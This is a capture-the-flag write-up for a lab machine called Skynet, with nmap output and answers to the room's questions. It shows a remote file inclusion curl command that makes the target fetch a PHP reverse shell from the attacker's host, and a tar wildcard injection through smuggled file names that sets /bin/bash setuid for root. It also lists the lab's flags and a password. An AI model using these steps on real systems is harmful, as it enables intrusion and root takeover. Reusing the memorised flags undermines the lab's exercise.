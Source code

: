 # Skynet 

> Lorenzo De Simone | 17.12.2022 

------------------------------------------

## Hosts 

```bash
export IP=10.10.52.194 
```

## Enumeration 

```
$ sudo nmap -sC -sV -oN nmap/initial 10.10.52.194
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-17 07:29 CET
Nmap scan report for 10.10.52.194
Host is up (0.035s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
|_  256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL AUTH-RESP-CODE PIPELINING SASL CAPA TOP RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ENABLE LOGIN-REFERRALS SASL-IR LOGINDISABLEDA0001 more ID have IDLE post-login listed capabilities Pre-login IMAP4rev1 OK LITERAL+
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 10h48m28s, deviation: 3h27m50s, median: 8h48m28s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-12-17T15:17:49
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-12-17T09:17:49-06:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.63 seconds

```

## Flags 

1. What is Miles password for his emails?
> cyborg007haloterminator

```
Samba enumeration revelead a share milsedyson => Suggesting username for Miles 
In the anonymous share there was a log file with what looked like passwords 
```


2. What is the hidden directory? 
> /45kra24zxs28v3yd

```
Found in milesdyson smb share
```


3. What is the vulnerability called when you can include a remote file for malicious purposes?
> Remote file inclusion

```
Remote file inclusion vulnerability in cuppaCMS allowed to spawn a reverse shell to target machine 

curl http://10.10.52.194/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php\?urlConfig\=http://10.8.48.50:8000/php-reverse-shell.php

```


4. What is the user flag?
> 7ce5c2109a40f958099283600a9ae807


5. What is the root flag?
>3f0372db24753accc7179a282cd6a949

```
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )



www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Since backup.sh is running every minute with a cronjob as `root` we can let the script run other code abusing the wildcard in the tar command.

```bash
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > '--checkpoint-action=exec=sh shell.sh'
echo "" > --checkpoint=1

/bin/bash -p 
```

Pasting this code in `var/wwww/html` will generate the script `shell.sh`. This script will set the `setuid` flag to /bin/bash allowing us call `/bin/bash` as the owner of the file which is `root` hence giving us a `root shell` 
